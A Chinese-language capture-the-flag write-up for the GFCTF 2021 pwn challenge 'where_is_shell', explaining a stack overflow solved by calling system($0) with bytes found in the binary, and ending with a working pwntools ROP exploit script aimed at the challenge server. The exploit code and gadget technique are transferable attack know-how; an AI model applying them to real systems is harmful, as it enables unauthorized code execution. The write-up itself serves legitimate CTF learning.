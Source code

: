```yaml
---
title: '[GFCTF 2021]where_is_shell'
date: 2024-03-16 13:00:00 +0800
categories:  [ctf,pwn]
tags: [shell]
---
```

- `shell`的特殊姿势

![image-20240316122106483](../assets/img/old_imgs/image-20240316122106483.png)

看上去很简单的栈溢出,但是问题在于找不到能用的`/bin/sh`或者`sh`

这里出现了一个`shell`的新姿势:可以利用`system($0)`获得shell权限，`$0`在机器码中为 `\x24\x30`

![image-20240316122245239](../assets/img/old_imgs/image-20240316122245239.png)

在`tips`函数中正好有 `\x24\x30`可以用来构造,所以需要取出`0x400541`

关于`ida`打开机器码:`Option->general->Number of opcode改成5`

```python
from pwn import *
#io = process('./shell')
io = remote('node4.anna.nssctf.cn',28065)
elf = ELF('./shell')
pop_rdi = 0x00000000004005e3 #: pop rdi ; ret
sys_addr = 0x400557
ret_addr = 0x0000000000400416 #: ret
padding = 0x10+8

payload = b'A'*padding+p64(ret_addr)+p64(pop_rdi)+p64(0x400541)+p64(elf.plt['system'])+p64(ret_addr)
io.sendline(payload)

io.interactive()
```

